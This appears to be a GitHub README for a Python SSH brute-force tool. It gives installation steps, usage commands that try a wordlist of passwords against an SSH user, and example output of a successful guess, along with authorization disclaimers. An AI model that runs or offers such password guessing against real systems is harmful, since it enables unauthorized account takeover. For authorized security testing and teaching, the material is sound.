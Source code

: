 # SSH Login Brute

A simple Python script that demonstrates **SSH brute-force password attempts** against a known username on a target host.  
⚠️ **Do not run against systems without explicit authorization.**

## Features

- CLI with `argparse`
- Customizable:
  - `--host` (IP/domain)
  - `--user` (username)
  - `--wordlist` (one password per line)
  - `--port` (default: 22)
  - `--timeout` (default: 1.0s)
- Stops on the first valid password
- Friendly error if the wordlist file is missing

## Installation

```bash
git clone https://github.com/tashauzzz/ssh_login_brute.git
cd ssh_login_brute
python3 -m venv venv
source venv/bin/activate   # Linux/macOS
# venv\Scripts\activate    # Windows PowerShell
pip install -r requirements.txt

## Usage

python ssh_login_brute.py --host 127.0.0.1 --user notroot --wordlist ./ssh-common-passwords.txt
python ssh_login_brute.py --host example.com --user admin --wordlist /path/top100.txt --port 22 --timeout 1.5

## Example Output

[0] Attempting password: '123456'!
[-] Connecting to 127.0.0.1 on port 22: Failed
[X] Invalid password!
[1] Attempting password: 'password'!
[+] Connecting to 127.0.0.1 on port 22: Done
[*] notroot@127.0.0.1:
    Distro    Kali 2025.2
    OS:       linux
    Arch:     amd64
    Version:  6.12.25
    ASLR:     Enabled
    SHSTK:    Disabled
    IBT:      Disabled
[>] Valid password found: 'password'!
[*] Closed connection to '127.0.0.1'

## Requirements

Python 3.13+
paramiko, pwntools (see requirements.txt)

## Disclaimer

Use only on systems you control or where you have written permission.


